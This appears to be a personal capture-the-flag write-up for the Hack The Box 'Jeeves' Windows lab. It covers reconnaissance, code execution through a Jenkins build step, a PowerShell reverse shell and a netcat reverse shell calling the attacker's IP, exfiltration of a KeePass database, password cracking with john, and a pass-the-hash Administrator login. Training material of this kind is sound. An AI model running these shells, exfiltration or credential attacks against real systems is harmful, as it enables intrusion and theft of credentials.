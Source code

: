 #medium 

## 0. **Lab infos**

**Difficulty :** Medium
**Name :** Jeeves
**IP** : 10.129.228.112
**Objectives :** Get user and root flags
**OS :** #Windows

##### **Conclusion**
**Time :** 
	**Start :** 22.04.2025 16:31
	**Break at/to :** 22.04.2025 19:02 | 23.04.2025 17:00
	**Finish :** 
**Satisfaction :**  
### 1. **Reconnaissance

We start with an #nmap scan

```BASH
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
```

And we make a #gobuster scan on the port 50000 because it's the only we can see without the -p-

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-0k04etkbc3]─[~]
└──╼ [★]$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.228.112:50000
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.228.112:50000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/askjeeves            (Status: 302) [Size: 0] [--> http://10.129.228.112:50000/askjeeves/]
Progress: 108476 / 220561 (49.18%)
```

![[Pasted image 20250422164215.png]]


## 2. **Weaponization

## 3. **Delivery

## 4. **Exploitation

We can create a new jobs and in the build > Add Build step select Execute Windows batch command.

And we can enter our command. I wrote whoami.
Adn after build the jobs we can click on Conole OutPut and see the result of our command.

![[Pasted image 20250422165715.png]]

So with this reverse shell we can have an #RCE 

```POWERSHELL
powershell -nop -c "& { $client = New-Object Net.Sockets.TCPClient('10.10.14.117',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}}"
```

The server is extremely slow but it's okkey

![[Pasted image 20250422172207.png]]

After 1h30 without extracting the CEH.kdbx file I found that I have to make some changes.

First

```BASH
nc -nvlp 1234
```

After

Download nc.exe on my machine and place me in the directory and start a http python server.

End

```POWERSEHLL
powershell wget "http://10.10.14.117:8000/nc.exe" -outfile "nc.exe"
nc.exe -e cmd.exe 10.10.14.117 1234
```

And it's good.


For extracting the file :

Attacker :
```BASH
nc -l -p 12345 > file.kdbx
```

Victim :
```POWERSHELL
nc.exe 10.10.14.117 12345 < C:\Users\kohsuke\Documents\CEH.kdbx
```

And now we have the .kdbx file.

Now we want to crack the file so we start with 

```BASH
keepass2john file.kdbx > unfile.hash
```

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-yfwujbxq4p]─[~]
└──╼ [★]$ john --wordlist=/home/bobinette/Desktop/rockyou.txt unfile.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (file)     
1g 0:00:00:11 DONE (2025-04-23 10:24) 0.08403g/s 4619p/s 4619c/s 4619C/s nando1..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

So the password is moonshine1

So first, you need to download keepassxc :

```BASH
sudo apt install keepassxc
```

And after you can run this and enter the password :

```BASH
keepassxc open file.kdbx
```

![[Pasted image 20250423173252.png]]

![[Pasted image 20250423173816.png]]

Now we can correctly connect to the machin as Administrator with : 

```BASH
pth-winexe -U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cb
e81fe00 //10.129.228.112 cmd
```

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

So for the first flag it's in kohsuke on his desktop :

```POWERSHELL
> type kohsuke\Desktop\user.txt
e3232272596fb47950d59c4cf1e7066a
```